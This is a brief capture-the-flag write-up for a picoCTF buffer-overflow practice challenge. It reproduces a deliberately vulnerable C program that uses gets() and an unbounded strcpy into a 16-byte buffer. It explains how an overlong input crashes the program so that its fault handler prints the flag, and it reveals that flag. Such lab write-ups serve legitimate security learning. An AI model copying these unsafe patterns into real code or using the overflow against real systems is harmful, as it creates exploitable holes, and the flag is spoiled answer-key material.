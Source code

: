 This practice is to get the flag from saturn.picoctf.net 64712. In order to connect it, we need to use the command.
```
nc saturn.picoctf.net 64712
```

The C code for this website is here:
```c
//vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler

  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

Before getting the flag, we should know this code first.

In order to print the flag, we need to find the way to call the function below:
```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

And we find the `sigsegv_handler()` function in the `main` function:

```c
fgets(flag,FLAGSIZE_MAX,f);
signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```

`signal(SIGSEGV, sigsegv_handler);` means that it will call sigsegv_handler() when it get SIGSEGV signal. After googling it, we know that SIGSEGV represents `Segmentation fault`.
Therefore, we have to make Segmentation fault.

From `vuln()`, it seems that Segmentation fault will be happened if we input more than 16 characters.
```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

So I tried
```
Input: 00000000000000000000000
```
here is the flag!
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```


ref: https://zh.wikipedia.org/wiki/記憶體區段錯誤


